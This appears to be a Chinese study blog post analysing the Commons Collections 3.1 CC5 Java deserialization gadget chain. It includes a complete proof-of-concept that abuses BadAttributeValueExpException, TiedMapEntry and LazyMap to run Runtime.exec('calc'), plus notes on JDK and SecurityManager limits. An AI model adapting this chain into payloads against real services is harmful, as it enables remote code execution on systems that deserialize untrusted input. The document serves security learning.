

# 前言

奇奇怪怪的就把CC5给看了。在看一个师傅的`CC1`的文章的时候，发现他写的`LazyMap`链不太一样，我以为是CC1的新链，然后也学习了一波，然后查了一下发现是CC5。。。

# 环境

```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
```

# 分析

CC5也算是CC1的另一种变形。一直到`LazyMap`那里的思路都是一样的。接下来就是需要调用`Map`的`get()`方法了。

发现了`TiedMapEntry`类的`getValue()`方法调用了`get()`：

```java
    public Object getValue() {
        return map.get(key);
    }
```

而它的`toString()`调用了`getValue()`方法：

```java
    public String toString() {
        return getKey() + "=" + getValue();
    }
```

接下来就是找可利用的`readObject()`方法了，发现了`BadAttributeValueExpException`类的`readObject()`方法：

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

```java
val = valObj.toString();
```

因此想办法让`valObj`是`TiedMapEntry`类的对象即可，看一下它是怎么得到的。

```java
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);
```

先调用`readFields`从流中读取了所有的持久化字段，然后调用`get()`方法得到了名字是`val`的字段。也就是这个：

```java
    private Object val;
```

同时注意一下这个类，看一下就知道这个类其实也是可以反序列化的：

```java
public class BadAttributeValueExpException extends Exception   {
public class Exception extends Throwable {
public class Throwable implements Serializable {
```


至此，整条链子也就理清了，有了构造CC1的经验，直接构造即可：

```java
package com.summer.cc5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections5 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);


        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        //Reflection
        Class clazz = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = clazz.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        byte[] bytes = serialize(badAttributeValueExpException);
        //System.out.println(System.getSecurityManager());
        unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```



```java
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```


# 限制

我换用了一下JDK7u21，发现并不能弹出计算器。发现`badAttributeValueExpException`压根就没`readObject()`方法。

看一下`ysoserialize`里的CC5：

```java
This only works in JDK 8u76 and WITHOUT a security manager
```

实际上我用的`8u71`也可以，`8u77`也可以。。。嗯。。。。。所以这个JDK版本的限制还是不去考虑它了。。

再注意一下`WITHOUT a security manager`，主要原因就是`readObject()`那里：

```java
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
```

`System.getSecurityManager() == null`才行。

> 安全管理器在Java语言中的作用就是检查操作是否有权限执行。是Java沙箱的基础组件。我们一般所说的打开沙箱，即加`-Djava.security.manager`选项，或者在程序中直接设置：`System.setSecurityManager(new SecurityManager())`. 当运行未知的Java程序的时候，该程序可能有恶意代码（删除系统文件、重启系统等），为了防止运行恶意代码对系统产生影响，需要对运行的代码的权限进行控制，这时候就要启用Java安全管理器.

默认肯定为null。关于`SecurityManager`的相关知识等到以后再去专门学习一下了，现在还是把重点放在CC链上。

# 参考链接

https://www.guildhab.top/2020/06/java-rmi-%e5%88%a9%e7%94%a84-%e6%9c%80%e5%9f%ba%e6%9c%ac%e7%9a%84%e4%b8%a4%e6%9d%a1-apache-commons-collections-pop-gadget-chains/

https://y4er.com/post/ysoserial-commonscollections-5/
